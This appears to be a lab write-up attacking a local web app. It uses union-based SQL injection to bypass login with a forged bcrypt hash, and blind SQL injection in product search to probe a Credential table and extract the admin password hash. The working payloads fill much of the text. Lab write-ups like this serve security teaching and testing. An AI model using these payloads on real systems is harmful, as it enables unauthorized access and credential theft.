## SQL Injection

### Preparation

We will exploit `Login` first



Go to hack `http://localhost:3000/page-login` :))





=> Maybe `or` is in blacklists

Test `admin' where '1'='1`



=> Error => using `prisma.$queryRawUnsafe()` => a vulnerable function

Test with `union`

I guess they query 3 columns

username: `123' union select null, null, null where '1'='1`



=> union select 4 and 5 columns => same error => 6 columns



error: `data and hash arguments required`

So we detect type of columns

`123' union select 1, 2, 3, null, null, null where '1'='1`



We test 'a' in column 3,4,5,6

Test...test...test



=> column 1,2 is integer, 3,4,5,6 is String

Test which column is username, password, email

I test column 3 is username, 4 is email, 5 is password, 6 is role
column 1 is id

This is source code, they get username first, and compare password (hash by bcrypt)


=> We can create a suitable password, we inject in username a hash password, and password field we inject a plain password

Go to `https://bcrypt-generator.com/` type `admin` and choose 10 rounds



copy hash password

username: `123' union select 1,2,'admin','hao@gmail.com','$2a$10$U84XDh.Y6UABwjfhAzNiGu3l/kZRPj5IRrRTDypA/bcSNpUpJtu8W','admin' where '1'='1`
password: `admin`

=> Login success

### Blind SQLI

Blind SQLI in search feature

We search `A`:



`Q`:



=> (YES/NO) product

__Detect SQL Injection__

`http://localhost:3000/product/search?name=Q' or 1=1--`



=> Found all products

__Exploit SQL Injection__

To exploit, we proceed to find the table have credential information. In this case, we found Credential table by the payload `a' OR (SELECT 'a' FROM "Credential" LIMIT 1)='a`. The response is Found product! mean that is a true query and the table Credential is existed.

We detect user `admin`: ``

`a' OR (SELECT 'a' FROM "Credential" where username = 'admin' LIMIT 1)='a'--`

Find hash password: 

`a' OR (SELECT 'a' FROM "Credential" where username = 'admin' and length(password) > 1 LIMIT 1)='a'--`



